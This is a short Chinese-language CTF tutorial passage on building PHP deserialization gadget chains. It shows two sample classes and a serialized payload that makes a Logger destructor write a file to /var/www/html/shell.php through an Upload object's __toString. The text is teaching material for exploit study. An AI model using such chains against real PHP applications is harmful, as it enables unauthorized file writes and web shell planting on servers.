 ------

# 🚀🚀🚀 造链总结

**口诀版记忆！**

> 找入口，连中转，控敏感，调参数，串成串！

------

# 🎯 举个完整 CTF实战链子例子：

CTF赛题，源码有2个类：

```php
class Logger {
    public $logFile;

    function __destruct() {
        file_put_contents($this->logFile, "Log end.");
    }
}

class Upload {
    public $filename;

    function __toString() {
        return $this->filename;
    }
}
```

- `Logger` 的 `__destruct()` 用了 `$this->logFile`
- 如果 `$logFile` 是一个 `Upload` 对象
- 调用 `file_put_contents($Upload)` 时，会触发 `Upload->__toString()`
- `__toString()` 返回 `$filename`
- 最终 file_put_contents() 写到你指定的地方！

**payload构造思路：**

```php
$u = new Upload();
$u->filename = "/var/www/html/shell.php"; // 写到shell

$l = new Logger();
$l->logFile = $u; // 让logFile是Upload对象

echo urlencode(serialize($l));
```

就可以打文件写了！！💥

------
